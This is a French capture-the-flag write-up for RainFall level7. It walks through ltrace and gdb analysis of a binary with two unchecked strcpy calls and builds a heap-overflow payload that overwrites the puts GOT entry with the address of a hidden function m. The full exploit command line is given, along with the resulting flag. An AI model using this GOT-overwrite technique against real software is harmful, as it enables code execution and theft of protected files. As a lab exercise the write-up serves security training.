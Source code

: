 Le binaire attends des arguments sinon segfault:

$level7@RainFall:~$ ./level7
    Segmentation fault (core dumped)
$level7@RainFall:~$ ./level7 a
    Segmentation fault (core dumped)
$level7@RainFall:~$ ./level7 a a
    ~~

Le programme veut deux arguments.

En lancant le binaire avec ltrace on voit :

malloc(8)= 0x0804a008
malloc(8)= 0x0804a018
malloc(8)= 0x0804a028
malloc(8)= 0x0804a038
strcpy(0x0804a018, "a")= 0x0804a018
strcpy(0x0804a038, "a")= 0x0804a038
fopen("/home/user/level8/.pass", "r")= 0
fgets( <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++

Deux call a strcpy, vulnerable aux overflow.

Aussi en faisant info functions et via le code decompile on voit une fonction m inutilisee qui print time et une variable, resultant du fichier .pass on va essayer d'appeler cette fonction.

On cherche combien de caractere fait overflow le premier argument:

$level7@RainFall:~$ ./level7 aaaaaaaaaaaaaaaaaaaa a
    ~~
$level7@RainFall:~$ ./level7 aaaaaaaaaaaaaaaaaaaaa a
    Segmentation fault (core dumped)

On peut overflow le premier argument apres le 20e charactere.

On va utiliser cet overflow pour appeler m a la place de puts, en fait on va ecrire dans le got a l'adresse de puts, l'adresse de m

trouver puts dans la global of table : 

(gdb) disas puts
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:	jmp    *0x8049928 << 
   0x08048406 <+6>:	push   $0x28
   0x0804840b <+11>:	jmp    0x80483a0
End of assembler dump.
(gdb) disas 0x8049928
Dump of assembler code for function puts@got.plt:
   >> 0x08049928 <+0>:	push   %es 
   0x08049929 <+1>:	test   %al,(%eax,%ecx,1)
End of assembler dump.

>> 0x08049928 

$ltrace ./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') "a"
strcpy(0x0804a018, "AAAAAAAAAAAAAAAAAAAA(\231\004\b")= 0x0804a018
strcpy(0x08049928, "a") = 0x08049928

On ecrit bien dans l'adresse de puts (0x08049928)

Plus qu'a remplacer le deuxieme argument avec la fonction m :

(gdb) disas m
Dump of assembler code for function m:
   0x080484f4 <+0>:	push   %ebp

>> 0x080484f4

level7@RainFall:~$ ./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9 << flag 
 - 1653920972 << unix timestamp 
